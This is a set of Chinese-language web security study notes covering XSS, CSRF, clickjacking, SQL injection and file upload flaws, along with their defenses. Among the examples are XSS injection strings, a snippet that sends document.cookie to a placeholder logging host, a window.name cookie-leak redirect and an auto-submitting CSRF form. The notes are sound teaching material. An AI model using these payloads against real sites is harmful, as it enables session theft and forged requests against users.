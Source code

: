 # Web安全
***

## 游览器安全
* 同源策略
* 可以跨源的标签:`<script>,<img>,<iframe>,<link>`
* 受同源策略的限制:`DOM,Cookie,XMLHttpReuest,Flash(会通过对方的crossdomain.xml来判断)`
* EV SSL证书

## XSS攻击
* 反射型XSS: 需要用户点击才可发起攻击
    * 服务端
    ~~~php
    <?php
        $a = $_GET['a'];
        echo $a;
    ?>
    ~~~
    * 客户端: http://..../?a=(js)
    * 出现地方: **多出现在搜索的地方**
* 存储型XSS: 会把用户的输入存储到服务端
* DOM Based XSS: 通过标签的封闭来注入
	* 实例
	~~~html
    document.getElementById('t').innerHTML = "<a href='"+str+"' >testLink</a>"
    ...
    <div id='t'></div>
    ~~~
    * 攻击代码
    ~~~javascript
    str = '><script>alert(/xss/);</script><'
    ~~~
* 窃取Cookie
~~~javascript
var img = document.createElement('img');
img.src = 'http://.../log?coo='+escape(document.cookie);
document.body.appendChild(img);
~~~
* 构造POST和GET请求
	* GET: `img.src = http://.../?a=123&b=123`
	* POST:`ajax,jquery`
* 识别用户游览器：`alert(navigator.userAgent)`
* 获取用户IP
* 获取用户的历史
* XSS平台
	* Attaack API
	* BeEF(useful)
	* XSS-Proxy
* XSS构造技巧
	* 利用字符编码: `%c1\`在Unicode下会被当成一个字符，而在utf-8下不会
	* 绕过长度限制
		1. 服务端长度限制:对`$var`有长度限制
		~~~html
        <input type="text" value="$var">
        ~~~
        2. 普通技巧: `"><script>alert(/xss/)</script>`
        3. 缩短: `"onclick=alert(1)//`
        4. 或者用`SRC`链接
	* 使用`<base>`标签：定义页面上所使用“相对路径”的hosting地址，作用与后面的所有标签
	~~~html
    <base href="http://127.0.0.1">
    <img src="a.png"> 
    <!--src="http://127.0.0.1/a.png"-->
    ~~~
	* window.name的妙用
	~~~javascript
    /*实现跨域*/
    window.name = document.cookie;
    location.href = "http://...../...";
    ~~~
    * 重定向的利用：如果A域存在存储型漏洞，B域存在存储型或反射型XSS漏洞，可以从A跳到B，获取URL后跳回A，就达到了跨与攻击的目的。
* XSS防御
	* HttpOnly:游览器禁止JS访问带有HttpOnly属性的Cookie
	~~~php
    setcookie("name","value",,null,null,null,null,true) //最后一个true代表设置为httpOnly
    ~~~
    * 输入检查
    * 输出检查：`> --> &gt`,对php：htmlspecialchars;对javascript:JavascriptEncode(函数需要自己实现)
    * 编码：htmlEncode,javascriptEncode,urlEncode

##  CSRF攻击
* 全称：Cross Site Request Forgery
* Cookie分为两种：Session Cookie(临时Cookie)，Third-party Cookie(本地Cookie)。
* 对于不同的游览器，对于第三方Cookie的处理是不一样的。从A域访问B域，IE会拦截第三方Cookie，Firefox,Chrome则不会。
* P3P头可以实现发送第三方Cookie。
* POST请求构造技巧
~~~html
<iframe>
    <form action="..." id="p" method="post">
        <input type="text" name="username" value="aasd"/>
        <input type="password" name="passwd" vaue=""/>
        <input type="submit" name="submit" value="submit"/>
    <script>
        $("#p").submit();
        </script>
    </form>
</iframe>
~~~

* CSRF的防御
	* 添加验证码：给重要操作加上验证码
	* Referer Check:检查请求是否来自合法的“源”
	* Anti CSRF Token的使用：Cookie和Form中存token，服务器比对结果。

## ClickJacking(点击劫持)
* 通过iframe或其他tag设置为透明覆盖在网页功能键上实现点击劫持。
* Cross Site Image Overlaying(XSIO):他通过控制img的style改变位置，实现劫持。
* 防御
	* X-Frame-Options:http头
		1. DENY: 游览器会拒绝加载任何frame页面
		2. SAMEORIGIN: frame页面的地址只能为同域名下的页面
		3. ALLOW-FROM: 定义允许frame加载的页面地址

## Html5安全
* 新标签的影响：如video允许远程调用视频
* iframe的sandbox
* Link Types:noreferrer
* Canvas标签: 可是用Canvas破解验证码
* Web Storage: 保存数据

## SQL攻击
* 关闭错误回显：如果不关闭，如添加"'"会返回敏感信息。
* 宽字带注入： %5c
* SQL Column Truncation: sql-mode设置,mysql默认为严格模式。
* 防御：使用预编译语句，存储过程，检查数据类型，使用安全的函数
~~~php
//预编译
$query = "insert into city values(name,code,dis) values(?,?,?)";
$stmt = $mysqli->prepare($query);
$stmt->bind_param("sss",$val1,$val2,$val3);
$val1 = 'a';
$val2 = '1';
$val3 = '123';
$stmt->execute();
~~~
* 其他注入：XML注入，代码注入（如system函数），CRLF注入(\r\n,%0d%0a)

## 文件上传漏洞
* 漏洞类型：上传Web脚本语言，上传Flash策略文件crossdomain.xml,上传木马文件，上传包含了脚本的图片。
* 防御最好用白名单形式。（判断文件名后缀和检查文件头）
* 文件截断：`%00(修改POST数据,对路径而言)`
* 服务器解析漏洞